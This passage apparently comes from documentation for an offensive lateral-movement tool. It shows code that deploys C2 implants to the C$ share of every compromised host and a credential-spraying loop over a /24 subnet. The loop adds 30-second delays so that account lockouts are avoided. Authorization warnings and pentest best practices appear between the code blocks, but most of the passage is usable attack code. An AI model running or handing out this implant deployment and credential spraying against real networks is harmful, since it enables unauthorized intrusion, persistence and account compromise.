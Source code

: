 ```python
        implant_path='c2/implant/basic_implant.py',
        remote_path='C$\\temp\\python_script.py',
        c2_url=c2_url
    )

print(f"[+] Deployed C2 implants to {len(scanner.compromised_hosts)} hosts")

# Step 6: Monitor for new implant check-ins
# ... (C2 monitoring logic)
```

## Security Considerations

**CRITICAL WARNINGS:**

1. **Authorization Required**: Only use on networks you own or have explicit written permission to test
2. **Credential Spraying**: Extremely noisy and will trigger account lockouts if not careful
3. **Mass Deployment**: Can cause network disruption and will be detected by security tools
4. **Pass-the-Hash**: Requires administrative access and may trigger security alerts
5. **Legal Implications**: Unauthorized lateral movement is illegal in most jurisdictions

**Best Practices:**

- Always obtain written authorization before testing
- Use in isolated lab environments for learning
- Implement rate limiting for credential spraying (avoid account lockouts)
- Monitor for detection during engagements
- Document all lateral movement for legitimate penetration tests
- Clean up all deployed implants after testing
- Respect scope limitations and network boundaries

**Anti-Lockout Measures:**

```python
# Add delay between attempts
import time

scanner = AutomatedLateralMovement()
scanner.add_credential('admin', 'Password123')
scanner.add_target_range('192.168.1.0/24')

# Custom spray with delays
for target in scanner.targets:
    for username, password, domain in scanner.credentials:
        scanner.attempt_lateral_movement(target, username, password, domain)

        # Wait 30 seconds between attempts to avoid lockout
        time.sleep(30)
```

## Troubleshooting
